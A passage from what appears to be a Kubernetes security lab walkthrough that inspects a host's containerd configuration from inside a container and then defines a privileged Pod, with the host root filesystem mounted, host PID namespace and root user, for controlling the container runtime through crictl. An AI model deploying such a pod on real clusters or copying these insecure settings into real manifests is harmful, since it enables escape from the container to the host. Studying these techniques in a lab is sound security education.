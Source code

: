 ```
/ # ls -l /host/etc/containerd/

total 12
-rw-r--r--    1 root     root           886 Jul  6 01:52 config.bak
-rw-r--r--    1 root     root          6993 Jul  6 01:52 config.toml

/ #
```

There is its config (`.toml`) file! We can confirm that it is configured to listen on a unix socket by searching the config:

```
/ # cat /host/etc/containerd/config.toml  | grep sock

  address = "/run/containerd/containerd.sock"

/ #
```

Confirmed! The socket is located at `/run/containerd/containerd.sock`.

```
/ # exit

~/k01$
```

Since our runtime is `containerd` we can use the containerd cli (`crictl`) to control the runtime.

Create a new container which has the `crictl` binary installed:

```
~/k01$ nano crictl-pod.yaml && cat $_
```
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: root-user-crictl
spec:
  # Bad host volumene mount
  volumes:
  - name: nicehost
    hostPath:
      path: /
  # Host PID
  hostPID: true
  containers:
  - name: root-user-crictl
    image: docker.io/rancher/crictl:v1.19.0
    command: ["sleep", "3600"]
    volumeMounts:
    - name: nicehost
      mountPath: /host
    securityContext:
      # priviliged
      privileged: true
      # root user:
      runAsUser: 0
```
```
~/k01$
```
